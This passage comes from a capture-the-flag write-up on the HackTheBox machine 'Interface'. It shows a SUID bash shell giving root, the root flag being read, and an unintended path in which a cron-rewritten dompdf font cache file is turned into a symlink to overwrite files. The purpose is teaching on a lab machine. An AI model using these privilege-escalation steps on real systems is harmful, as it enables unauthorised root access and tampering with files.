 ```

www-data@interface:/tmp$ /tmp/0xdf -p
0xdf-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
0xdf-4.4#

```

And `root.txt`:

```

0xdf-4.4# cat /root/root.txt
3772a7d2************************

```

## Beyond Root - Patched Unintended

### Enumeration

There was an unintended solution patched by HackTheBox on 15 February 2023, four days after Interface released:

![image-20230508180653311](/img/image-20230508180653311.png)

It talks about an unintended solution in a cleanup script.

Working on a system before the patch, looking at the timestamps in `/var/www/api/vendor/dompodf/dompdf/lib/fonts`, I’ll notice they are all from November, except for one:

![image-20230213154648755](/img/image-20230213154648755.png)

Not only is that from today, but it’s being updated every five minutes. That suggests it’s being replaced every five minutes. *And*, its owned by www-data.

It’s a bit disruptive to the box, but by making this file into a symbolic link, I can potentially overwrite important files and potentially change their ownership.

### Test

To test, I’ll make this file into a symlink that points to an unimportant file, `/tmp/0xdf`:

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ln -sf /tmp/0xdf dompdf_font_family_cache.php
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l dompdf_font_family_cache.php
lrwxrwxrwx 1 www-data www-data 9 Feb 13 20:53 dompdf_font_family_cache.php -> /tmp/0xdf

```

When the five-minute cron runs, `/tmp/0xdf` is there:

```

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ ls -l /tmp/0xdf 
-rwxrwxrwx 1 www-data www-data 2863 Feb 13 20:55 /tmp/0xdf
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ head /tmp/0xdf
<?php return function ($fontDir, $rootDir) {
return array (
  'sans-serif' => array(
    'normal' => $fontDir . '/Helvetica',
    'bold' => $fontDir . '/Helvetica-Bold',
    'italic' => $fontDir . '/Helvetica-Oblique',
    'bold_italic' => $fontDir . '/Helvetica-BoldOblique',
  ),
```